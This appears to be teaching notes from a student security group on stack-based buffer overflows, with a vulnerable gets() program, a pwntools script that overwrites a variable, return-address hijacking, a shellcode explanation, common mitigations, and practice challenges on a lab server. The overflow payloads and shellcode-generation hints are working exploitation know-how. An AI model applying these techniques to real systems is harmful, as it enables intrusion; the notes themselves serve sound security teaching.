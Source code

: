 # Stack Smashing
Today we'll be exploring stack smashing, one of the oldest and most fundamental
techniques of exploitation.

## Unsafe Writes
The premise of this bug is simple: When data is written to memory in C, there
is no concept of a "buffer", let alone the size of a buffer. This means that if
a function is instructed to write past the end of a buffer, it will happily do
so, overwriting any other data that happens to be sitting in the way. For
example, consider the manpage entry for `gets()`:

```
SYNOPSIS
       #include <stdio.h>

       char *gets(char *s);

DESCRIPTION
       Never use this function.

       gets()  reads  a  line from stdin into the buffer pointed to by s until
       either a terminating newline or EOF, which it replaces with a null byte
       ('\0').  No check for buffer overrun is performed (see BUGS below).
```

From the first sentence of the description, the manpage makes it blatantly
obvious how unsafe the function is, for the same reason described above. There
is no check for a buffer overrun. Consider the snippet of code below:

```C
#include <stdio.h>

int main(void) {
    int num = 1443;
    char buf[50];

    gets(buf);

    printf("%d\n", num);

    return 0;
}
```

Below is a diagram of the stack just before the call to `gets()`.

![Stack before gets()](./stack_smashing_example1.png)

If we were to enter a string of length 49 or less (remember the terminating
null byte), we would expect this program to print 1443. But what if we were to
enter 50 or more characters? Since `gets()` doesn't do any bounds checking, we
expect `num` to be overwritten. Lets see this happen in practice. Compile the
program above with `gcc -fno-stack-protector prog.c` and run `python -c 'print
"A"*49' | ./a.out`:

```
devneal@nealscape:~/techsec/meeting_notes/04-03-17_stack_smashing$ python -c 'print "A"*49' | ./a.out
1443
devneal@nealscape:~/techsec/meeting_notes/04-03-17_stack_smashing$ python -c 'print "A"*50' | ./a.out
1443
devneal@nealscape:~/techsec/meeting_notes/04-03-17_stack_smashing$
```

Well, so much for that. Though it may seem like the input was unsuccessful, the
truth is that the size of the buffer is being padded to a multiple of 8 bytes
(a machine word) for better performance. So the "real" size of the buffer is
56 bytes, not 50. Knowing this, lets try again:

```
devneal@nealscape:~/techsec/meeting_notes/04-03-17_stack_smashing$ python -c 'print "A"*55' | ./a.out
1443
devneal@nealscape:~/techsec/meeting_notes/04-03-17_stack_smashing$ python -c 'print "A"*56' | ./a.out
1280
devneal@nealscape:~/techsec/meeting_notes/04-03-17_stack_smashing$
```

Just as expected, `num` is being overwritten. Below is a diagram of the stack
after the call to `gets()`:

![Stack after gets()](./stack_smashing_example2.png)

Since `num` is stored in little-endian byte order, the least significant bit is
overwritten first, changing the value from `0x00000005A3` to `0x0000000500`.
You can verify in python that these are equal to 1443 and 1280, respectively.
Additionally, you can simply write a ton of 'A' characters to overwrite the
return address, causing the program to crash.

## Targeted writes
Since we can overwrite `num` with arbitrary bytes, we can effectively change it
to be any value we want. The classical way to do this is to use python's
`struct` module. However, we have better tools available to us now. This is how
to write arbitrary bytes in 2017:

```python
#!/usr/bin/python
from pwn import *

your_val_here = 12345
p = process('./a.out')
p.sendline('A' * 56 + p64(your_val_here))
print p.readline()
```
If you want to write negative arguments, you'll have to use something like
`p64(-1, sign="signed", endinanness="little")`.

## Control hijacking
Overwriting variables is fun, but overwriting the return address is of
particular interest, since doing so allows us to control which function is
called next. In the program above, if we substitute `p.sendline('A' * 56 +
p64(your_val_here))` with `p.sendline('A' * 72 + p64(your_address_here))`, the
program will start executing instructions at `your_address_here` after
returning from `main()`. We need only supply the location in memory of the
desired function.

### Symbols
When a program is compiled, the locations of global variables and functions are
named (unless you tell the compiler not to do this). These names are called
*symbols*, and we can view them with a tool called `readelf`. Run `readelf
--symbols a.out | less` to view the symbols of `a.out`. My output from
`readelf --symbols a.out` is below:

```
[truncated]
59: 0000000000601030     0 NOTYPE  GLOBAL DEFAULT   25 __data_start
60: 0000000000000000     0 NOTYPE  WEAK   DEFAULT  UND __gmon_start__
61: 0000000000601038     0 OBJECT  GLOBAL HIDDEN    25 __dso_handle
62: 0000000000400620     4 OBJECT  GLOBAL DEFAULT   16 _IO_stdin_used
63: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND gets@@GLIBC_2.2.5
64: 00000000004005a0   101 FUNC    GLOBAL DEFAULT   14 __libc_csu_init
65: 0000000000601048     0 NOTYPE  GLOBAL DEFAULT   26 _end
66: 0000000000400470    42 FUNC    GLOBAL DEFAULT   14 _start
67: 0000000000601040     0 NOTYPE  GLOBAL DEFAULT   26 __bss_start
68: 0000000000400566    57 FUNC    GLOBAL DEFAULT   14 main
69: 0000000000000000     0 NOTYPE  WEAK   DEFAULT  UND _Jv_RegisterClasses
70: 0000000000601040     0 OBJECT  GLOBAL HIDDEN    25 __TMC_END__
71: 0000000000000000     0 NOTYPE  WEAK   DEFAULT  UND _ITM_registerTMCloneTable
72: 0000000000400400     0 FUNC    GLOBAL DEFAULT   11 _init
```
From this output, we can see that `main()` is located at `0x400566`. If there
were other functions in the program (like in challenge 3), they would be
included here too, and you could read off their memory locations.

# Shellcode
Shellcoding is the oldest trick in the binary exploitation book. It's
essentially a clever way to handle the fact that overwriting the return
address only allows us to execute functions that are already in the program.
The trick is to write our own instructions to memory *in addition to* the
address to jump to. The attack is best summarized with a diagram. We craft our
input such that the resulting stack has the following form:

![Shellcode Input](./shellcode_diagram.png)

If we overwrite the start of `buf` with our shellcode and the return address
with the address of `buf`, then when the program will begin executing the
shellcode when the function returns. And since the purpose of shellcode is to
spawn a shell, we can then run arbitrary commands on the machine that was
exploited, a disastrous result for a bug as innocent as an incorrect write.

# Mitigation Techniques
Since buffer overflows are so common and so dangerous, many mitigation
techniques have been invented to make them more difficult to exploit. The most
common ones are stack canaries, non-executable stacks, and ASLR.

## Stack Canaries
These are random word-sized values written to the stack between local variables
and the saved frame pointer. Before the function returns, the stack canary is
checked to ensure it still has the same value that it did originally. If not,
an error is thrown.

## Non-Executable Stack
An error is thrown whenever the program attempts to execute instructions from
the stack.

## Address Space Layout Randomization (ASLR)
The segments composing the program's memory are randomized before each run,
making it much more difficult to find the address of functions.

These techniques make stack smashing much more difficult in practice, but they
do not make it impossible. At its core, exploitation requires an attention to
detail greater than even the original authors, not rote memorization of
techniques.

# Challenges
There are 4 challenges, each running at `lox.xvm.mit.edu:800X`, where `X` is
the number of the challenge (starting from 1). You can interact with the
programs from the command line with `netcat` (`echo "input" | nc
lox.xvm.mit.edu 8001`) or `telnet` (`telnet lox.xvm.mit.edu 8001`). From a
python script, you may find the following useful:

* `from pwn import *` - import all the `pwn` modules
* `s = remote('lox.xvm.mit.edu', 8001)` - create a `remote` object
* `remote.sendline()` - send a line of input to the port specified by `remote`
* `remote.readline()` - read a line of input from the port specified by `remote`
* `remote.interactive()` - interact with the port specified by `remote`
directly
* `shellcode = asm(shellcraft.i386.linux.sh())` - save 32-bit shellcode to
`shellcode`

